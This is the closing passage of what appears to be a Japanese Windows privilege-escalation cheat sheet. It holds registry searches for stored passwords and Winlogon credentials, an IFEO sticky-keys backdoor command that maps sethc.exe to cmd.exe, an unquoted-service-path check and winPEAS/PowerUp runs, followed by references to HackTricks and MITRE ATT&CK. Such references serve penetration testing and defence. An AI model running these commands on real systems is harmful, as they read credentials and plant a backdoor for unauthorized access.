reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

:: === IFEOバックドア ===
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "cmd.exe" /f

:: === 引用符なしサービスパス ===
wmic service get name,pathname,startmode | findstr /iv "C:\Windows\\" | findstr /iv "\""

:: === 完全自動スキャン ===
.\winPEASx64.exe
Import-Module .\PowerUp.ps1; Invoke-AllChecks
```

---

## 参考文献

- HackTricks — Windows Local Privilege Escalation: [https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html)
- PayloadsAllTheThings — Windows PrivEsc: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- MITRE ATT&CK T1547.001 — Registry Run Keys: [https://attack.mitre.org/techniques/T1547/001/](https://attack.mitre.org/techniques/T1547/001/)
- MITRE ATT&CK T1546.012 — Image File Execution Options: [https://attack.mitre.org/techniques/T1546/012/](https://attack.mitre.org/techniques/T1546/012/)
- MITRE ATT&CK T1574.009 — Unquoted Path: [https://attack.mitre.org/techniques/T1574/009/](https://attack.mitre.org/techniques/T1574/009/)
- winPEAS: [https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- PowerSploit PowerUp: [https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
- Seatbelt: [https://github.com/GhostPack/Seatbelt](https://github.com/GhostPack/Seatbelt)
